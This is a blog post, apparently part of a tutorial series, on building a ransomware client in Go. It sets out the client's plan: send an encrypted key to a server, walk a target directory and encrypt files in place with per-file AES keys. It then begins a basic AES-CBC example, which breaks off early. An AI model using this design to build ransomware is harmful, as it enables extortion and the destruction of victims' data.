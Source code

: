 Date = 2021-09-02T13:37:00-04:00
Published = true
[Meta]
Title = "The Client - Ransomware in Golang Part 3"
Description = "We write the wares..."
---

We're ready to write the client for our malware! We have the server's keypair and some understand of how to build this, so let's get started.

*If you haven't seen the other posts, you can follow along from the beginning at [tacix.at](https://tacix.at).*

Following is a high level sketch of what our client needs to do. 

```golang
// generate client keypair
// encrypt client private key with server public key
// post encrypted client private key to server (TBD)
// walk target directory
	// at each file
	// generate file key
	// read file
	// encrypt file
	// encrypt file key with client public key
	// store encrypted file key
	// write encrypted data back to file
```

Pretty easy! We have already learned most of these things in previous posts. The largest missing piece is encrypting the file. Since our RSA keys can barely encrypt 63 bytes of data, and files can be much larger than 63 bytes, we will need to use something else. For this we will use AES which is a symmetric encryption algorithm.

## Symmetric Encryption with AES

What we will be doing is generating an AES key for each file, encrypting the file with that, then encrypting that key with the client's public key. So let's figure out how to use AES.

AES is a symmetric encryption algorithm, which means it uses the same key for decryption as it does for encryption. We are going to be using AES in cipher block chaining (CBC) mode. There are 5 modes and [nerds patronizingly explain them to each other to show that they've read StackOverflow.](https://stackoverflow.com/questions/1220751/how-to-choose-an-aes-encryption-mode-cbc-ecb-ctr-ocb-cfb) 

What do we need for AES CBC? We need a randomly generated key (secret), a randomly generated initialization vector (IV) (not secret), a plaintext to encrypt (secret), and some padding to make sure the plaintext length is a multiple of the key size. The key and IV are 16 bytes (128 bits). We'll do no padding for this first go.

```golang
// scratch/sym.go
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"fmt"
	"log"
)

func main() {
	// 16 byte buffer for our key
	k := make([]byte, 16)
	// fill buffer with random data
	rand.Read(k)
	fmt.Printf("k:  %x\n", k)
```